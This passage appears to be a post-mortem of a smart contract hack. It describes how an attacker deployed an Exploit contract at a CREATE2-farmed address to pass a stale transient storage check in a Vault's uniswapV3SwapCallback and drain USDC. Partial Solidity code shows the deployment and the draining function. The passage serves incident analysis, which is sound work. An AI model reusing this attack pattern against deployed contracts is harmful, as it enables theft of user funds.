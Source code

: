 ```solidity
bytes32 salt = 0; // Here the salt needs to be chosen based on the bytecode and the expected address
bytes memory bytecode = type(Exploit).creationCode;
address vanityAddress = factory.safeCreate2(salt, bytecode);

// vanityAddress should now equal tokensMinted casted to address
require(vanityAddress == address(uint160(tokensMinted)), "Address mismatch");
```

This contract, referred to as the Exploit contract, is now able to call `uniswapV3SwapCallback` and appear as a valid Uniswap pool in the eyes of the victim contract.

Next, the attacker uses this contract to hijack the flow of execution and start draining funds.

```solidity
IExploit exploitContract = IExploit(vanityAddress);
exploitContract.exploit(address(this));
```

Once the attacker had deployed the `Exploit` contract at the farmed address, the last phase of the exploit was to invoke the vulnerable `uniswapV3SwapCallback` function directly. Since the transient storage slot now matched the address of this contract, the internal `msg.sender` check passed.

Inside the `Exploit` contract, the attacker manually crafted the parameters expected by the callback. These were encoded into the data payload and passed to the callback to simulate a legitimate Uniswap swap operation.

The attacker targeted USDC (the debt token) as the asset to steal. They calculated the amount to drain by querying the balance held by the victim contract and then they then called the vulnerable function directly. The `Vault` contract incorrectly believed the call came from a valid pool, due to the transient storage slot still holding the farmed address. The callback logic proceeded and sent the USDC to the `Exploit` contract, and also shifted control to the `ExploitCoordinator` contract.

Finally, the attacker transferred the stolen USDC from the `Exploit` contract to the `ExploitCoordinator`, completing the drain:

```solidity
contract Exploit {

    //...

    function exploit(address exploitCoordinator) external {

        //...

        IVault.VaultParameters memory vaultParams = IVault.VaultParameters({
            debtToken: address(usdc),
            collateralToken: exploitCoordinator, // The address of TokenA and exploitCoordinator
            leverageTier: 0
        });

        bytes memory data = abi.encode(msg.sender, exploitCoordinator, vaultParams, vaultState, reserves, false, true);

        uint256 amountToSteal = usdc.balanceOf(address(victim));

        victim.uniswapV3SwapCallback(
            0,
            int256(amountToSteal),
            data
        );

        uint256 usdcBalance = usdc.balanceOf(address(this));
        usdc.transfer(exploitCoordinator, usdcBalance);
    }
}
```
